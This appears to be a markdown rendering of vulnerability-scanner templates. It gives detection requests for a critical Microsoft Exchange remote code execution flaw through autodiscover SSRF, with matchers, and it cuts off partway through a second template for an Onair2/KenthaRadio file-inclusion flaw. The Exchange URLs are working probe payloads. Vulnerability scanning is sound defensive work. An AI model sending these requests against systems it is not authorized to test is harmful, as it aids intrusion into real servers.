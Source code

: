 
# Exchange Server - Remote Code Execution

## Description

- Microsoft Exchange Server is vulnerable to a remote code execution vulnerability. This CVE ID is unique from CVE-2021-31196, CVE-2021-31206.

- severity - critical
- tags - cve,cve2021,ssrf,rce,exchange,kev

## Requests

- Method - GET

### URL

- {{BaseURL}}/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com
- {{BaseURL}}/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com

### Matchers

**Type - word**

- part - body
- condition - or
- words
  1. Microsoft.Exchange.Clients.Owa2.Server.Core.OwaADUserNotFoundException
  2. Exchange MAPI/HTTP Connectivity Endpoint

---

# Onair2 < 3.9.9.2 & KenthaRadio < 2.0.2 - Remote File Inclusion/Server-Side Request Forgery

## Description

- Onair2 < 3.9.9.2 and KenthaRadio < 2.0.2 have exposed proxy functionality to unauthenticated users. Sending requests to this proxy functionality will have the web server fetch and display the content from any URI, allowing remote file inclusion and server-side request forgery.
- severity - critical
- tags - wordpress,lfi,ssrf,oast,wpscan,cve,cve2021

## Requests

### Step - 1
